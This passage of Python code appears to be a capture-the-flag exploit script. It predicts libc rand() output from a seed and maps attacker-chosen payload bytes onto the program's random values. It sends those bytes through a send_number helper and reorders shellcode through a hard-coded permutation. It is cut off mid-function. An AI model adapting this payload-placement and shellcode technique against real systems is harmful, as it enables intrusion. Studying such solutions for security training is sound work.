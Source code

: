 ```python
            a = struct.unpack(">b", (libc.rand() % 256).to_bytes(1, 'big'))[0]
            if a != k[j]:
                break
            if j == 9:
                return i

def get_full_list(seed: int) -> List[int]:
    libc.srand(seed)
    return [struct.unpack(">b", (libc.rand() % 256).to_bytes(1, 'big'))[0] for _ in range(160)]

def get_num_randomed(wanted_int: int) -> int:
    return table[wanted_int][0]


def generate_payload(wanted_payload: bytes, init_list: list) -> dict:
    wanted_payload += b'\x00'
    payload = init_list[:len(wanted_payload)+2]
    action_dict = {}
    payload = [np.int8(i) for i in payload]
    init_list = [np.int8(i) for i in init_list]
    print(payload)

    for i in range(1, len(wanted_payload)+1):
        offset = np.int8(wanted_payload[i-1] - payload[i-1])
        print(offset, type(offset))
        n_table = table[offset][1]
        payload[i-1] = np.int8(payload[i-1] + n_table[0])
        payload[i] = np.int8(payload[i] + n_table[2])
        payload[i+1] = np.int8(payload[i+1] + n_table[1])
        action_dict[i] = table[offset][0]
        print(i, payload)
    print(payload)
    return action_dict
    

def send_payload(payload: dict):
    for k, v in payload.items():
        print(">> sending", v, "to pos", k)
        send_number(b'1', v)
        send_number(str(k).encode() + b'\n')



def gen_reversed_payload(sc: bytes):
    b=[ 41,  81,  32, 141,  79,  25,  84, 104,  40,  90,   103,   3,   9,  52,  70, 115, 124,  15, 111,  57,   112,  78,  23,  73, 131, 114,  54, 121, 133,  75,    13,  18,  63,   4,  22,  46,  69,  67,  64,  66,    42,   6, 122,  33,  61,  17,  58,  21,  31,  35,    49, 137,  82,  26,  50,  60,  77,  97,  11,  36,    30, 113,  43,  56,   7, 129, 106,  44,  45, 127,   134, 128, 136, 138,  87,  12, 140, 117, 102,  65,    96,   2,  37, 116,  99, 119,  48,  89,  92, 105,   123, 125,  68,  59, 132,  39,  76, 126,  83,  98,   108, 110,  47,  80,  10,  71, 145, 144,  91,  62,    95,  24,  85, 100, 143,  20,  94, 120,  27,  74,    55,  14,  29,  34,  16,  86,  38, 101,  51,  19,    53,  93,  88, 130,  28, 142, 139, 109, 107,  72,   118,   8,   5,   1, 135]
    s='{'
    for i in range(145):
        s+=f'{i}:{b[i]-1},'
    s=s[:-1]
    s+='}'
    dic=eval(s)
    def rev_messstr(payload):
        payload=payload.ljust(145,b'a')
        result=[b'\x00' for i in range(145)]
        for i in range(145):
            result[dic[i]]=payload[i]
```